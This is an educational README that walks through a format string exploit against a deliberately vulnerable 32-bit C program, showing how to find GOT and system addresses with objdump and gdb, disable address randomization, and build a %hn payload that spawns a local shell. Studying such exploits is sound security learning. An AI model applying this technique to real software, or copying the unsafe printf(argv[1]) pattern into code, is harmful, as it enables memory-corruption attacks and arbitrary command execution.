 ###Overview
This code demonstrates format string exploits. These vulnerabilities occur when a function that takes string 
formats as inputs like `printf()` is exposed to user input. Mentally, I think of this as the C equivalent of 
SQL injection.  

This guide is based off of [this website](http://codearcana.com/posts/2013/05/02/introduction-to-format-string-exploits.html) More in depth explanation is provided there

`printf()` can take any number of inputs, the only way it knows how many to expect is by looking at the format string it is passed.
`printf(%p %d %i)` expects three arguments. If three arguments are not given, it will grab the next three address off of the stack
and use those as arguements.

Using the `%n` formatter we can write values to memory addresses. This formatter does the following: `
> The number of characters written so far is stored into the integer indicated by the int * (or variant) pointer argument. No argument is converted.  


###Process
Using this information we are going to try to open a system shell by exploiting this code:
```
#include <stdio.h>
#include <string.h>
// compile with gcc -m32 temp.c

int main(int argc, char** argv) {
  printf(argv[1]);
  strdup(argv[1]);
}
```

To do this we must:
- Find the memory address for `strdup()`
- Find the memory address for `system` (The shell)
- Overwrite the Global Offset Table entry for `strdup()` with the memory address for `system`

####Find the memory address for `strdup()`
- Compile the program `gcc test.c -m32`
- view the compiled object `objdump -d a.out`
- You should see in the output a section with `<strdup@plt>` with a jmp command. the memory address to the right is the memory address of this function.
- Write this down. On my computer it is  `0x804a010`

####Find the memory address for `system`
- We must first disable libc randomization so that `system` is always at a deterministic location in memory.
- Run the command `ulimit -s unlimited` to disable libc randomization
- We can find the location using the debugging tool gdb. Below is the sample terminal output from doing so:
```
gdb -q a.out
Reading symbols from /home/osboxes/a.out...(no debugging symbols found)...done.
(gdb) b main
Breakpoint 1 at 0x8048450
(gdb) r
Starting program: /home/osboxes/a.out 

Breakpoint 1, 0x08048450 in main ()
(gdb) p system
$1 = {<text variable, no debug info>} 0x555d1e70 <system>
```
We now know that the location of system is `0x555d1e70`. This means we need to write `0x555d1e70` to `0x804a010` which is the location of `strdup` in the Global Offset Table

####Overwrite the Global Offset Table entry for `strdup()` with the memory address for `system`

`printf()` can take any number of inputs, the only way it knows how many to expect is by looking at the format string it is passed.
`printf(%p %d %i)` expects three arguments. If three arguments are not given, it will grab the next three addresses off of the stack
and use those as arguements.

Using the `%n` formatter we can write values to memory addresses. This formatter does the following: `
> The number of characters written so far is stored into the integer indicated by the int * (or variant) pointer argument. No argument is converted.  

If we succeed in overwriting `strdup` with `system` our program will call system with `argv[1]` so the string that we pass into printf must also be a valid system arguement. Our payload will begin with `sh#` so that everything after it will be commented out and we will open a shell process.  

Using the format of our payload string as `<address><address+2>%<number1>x%<offset>$hn%<number2>x%<offset+1>$hn` We can write the value of number1 to address and the value of number2 to address+2. The goal of the offset value is to determine what position in the stack the arguements number1 and number2 are located at. This takes adventage of the `x$` formatter which will select the xth arguement to `printf`. 

#####Finding offset value
The offset values are very sensitive to the lenght of the string changing so we will use a string that is the same length as the final string we wish to use. `"$(python -c 'import sys; sys.stdout.write("sh;#AAAABBBB%00000x%17$hp%00000x%18$hp")')"` sending this string into our program this will display `sh;#AAAABBBB<garbage>arg17<garbage>arg18`. We need to change 17 and 18 until the values `0x41414141` and '0x42424242` are displayed. This will mean that we know what argument the 5th through 8th byte and 9th through 12th byte of the string are, and can select them to be written to in the future.  

On my machine the proper offsets are 99 and 100.

#####Final Command
Running the command  `//env -i ./a.out "$(python -c 'import sys;sys.stdout.write("sh;#\x10\xa0\x04\x08\x12\xa0\x04\x08%07780x%99$hn%14061x%100$hn")')"` will successfully open up a new shell from this process. 

